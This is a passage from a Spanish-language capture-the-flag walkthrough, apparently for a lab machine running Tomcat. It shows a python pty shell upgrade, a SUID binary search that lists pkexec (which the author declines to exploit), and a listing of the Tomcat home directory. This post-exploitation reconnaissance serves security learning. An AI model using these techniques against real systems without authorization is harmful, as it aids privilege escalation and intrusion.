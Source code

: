 - Ahora obtenemos una **bash** interactiva.

```bash
python3 -c 'import pty;pty.spawn("bin/bash")'
tomcat@ip-10-10-10-7:/$
```

## Privilege Escalation

- Vemos el **pkexec**, pero no lo vamos a explotar.

```bash
tomcat@ip-10-10-10-7:/$ find / -perm -4000 2>/dev/null | grep -v '/snap/'
find / -perm -4000 2>/dev/null | grep -v '/snap/'
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/newuidmap
/bin/ping
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
tomcat@ip-10-10-10-7:/$
```

- Vemos que hay un directorio **conf**.

```bash
tomcat@ip-10-10-10-7:~$ ls -la
ls -la
total 156
drwxr-xr-x 9 root   tomcat  4096 Dec 11  2021 .
drwxr-xr-x 4 root   root    4096 Dec 11  2021 ..
-rw-r----- 1 root   tomcat 18970 Dec  2  2021 BUILDING.txt
-rw-r----- 1 root   tomcat  6210 Dec  2  2021 CONTRIBUTING.md
-rw-r----- 1 root   tomcat 57092 Dec  2  2021 LICENSE
-rw-r----- 1 root   tomcat  2333 Dec  2  2021 NOTICE
-rw-r----- 1 root   tomcat  3378 Dec  2  2021 README.md
-rw-r----- 1 root   tomcat  6898 Dec  2  2021 RELEASE-NOTES
-rw-r----- 1 root   tomcat 16507 Dec  2  2021 RUNNING.txt
drwxr-x--- 2 root   tomcat  4096 Dec 11  2021 bin
drwxr-x--- 2 root   tomcat  4096 Dec 11  2021 conf
drwxr-x--- 2 root   tomcat  4096 Dec 11  2021 lib
drwxr-x--- 2 tomcat tomcat  4096 Mar 23 16:32 logs
drwxr-x--- 2 tomcat tomcat  4096 Mar 23 16:32 temp
drwxr-x--- 8 tomcat tomcat  4096 Dec 11  2021 webapps
drwxr-x--- 3 tomcat tomcat  4096 Dec 11  2021 work
tomcat@ip-10-10-10-7:~$
```
